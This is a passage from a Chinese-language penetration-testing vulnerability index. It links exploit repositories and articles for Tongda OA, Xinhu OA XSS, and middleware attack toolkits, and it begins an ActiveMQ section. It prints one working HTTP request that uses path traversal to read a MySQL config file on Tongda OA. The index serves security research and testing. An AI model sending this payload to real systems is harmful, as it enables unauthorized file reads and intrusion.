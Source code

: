 - POC | Payload | exp
    - [NS-Sp4ce/TongDaOA-Fake-User](https://github.com/NS-Sp4ce/TongDaOA-Fake-User)

**通达 OA 任意文件上传漏洞+本地文件包含漏洞**
- POC | Payload | exp
    - [jas502n/OA-tongda-RCE](https://github.com/jas502n/OA-tongda-RCE)
    ```
    POST /mac/gateway.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Go-http-client/1.1
    Connection: close
    Content-Length: 44
    Content-Type: application/x-www-form-urlencoded
    Accept-Encoding: gzip

    json={"url":"/general/../../mysql5/my.ini"}
    ```

---

## 信呼

**信呼 OA 存储型 XSS**
- 影响版本
    - 信呼 v1.9.0~1.9.1

- 文章
    - [信呼OA存储型XSS 0day复现](https://xz.aliyun.com/t/7887)

---

# 框架和中间件

**文章**
- [中间件漏洞合集](https://mp.weixin.qq.com/s/yN8lxwL-49OKfVR86JF01g)
- [2020攻防演练弹药库-您有主机上线请注意](https://blog.riskivy.com/2020%e6%94%bb%e9%98%b2%e6%bc%94%e7%bb%83%e5%bc%b9%e8%8d%af%e5%ba%93-%e6%82%a8%e6%9c%89%e4%b8%bb%e6%9c%ba%e4%b8%8a%e7%ba%bf%e8%af%b7%e6%b3%a8%e6%84%8f/?from=timeline&isappinstalled=0)
- [企业常见服务漏洞检测&修复整理](https://paper.seebug.org/126/)

**工具包**
- [1120362990/vulnerability-list](https://github.com/1120362990/vulnerability-list) - 在渗透测试中快速检测常见中间件、组件的高危漏洞.
- [hatRiot/clusterd](https://github.com/hatRiot/clusterd) - application server attack toolkit
- [matthiaskaiser/jmet](https://github.com/matthiaskaiser/jmet) - Java Message Exploitation Tool

## ActiveMQ

> 官网 : https://activemq.apache.org/

Apache ActiveMQ 是美国阿帕奇 (Apache) 软件基金会所研发的一套开源的消息中间件,它支持 Java 消息服务、集群、Spring Framework 等.

**搭建教程**
- [ActiveMQ 搭建](../../../../运维/Linux/Power-Linux.md#ActiveMQ)
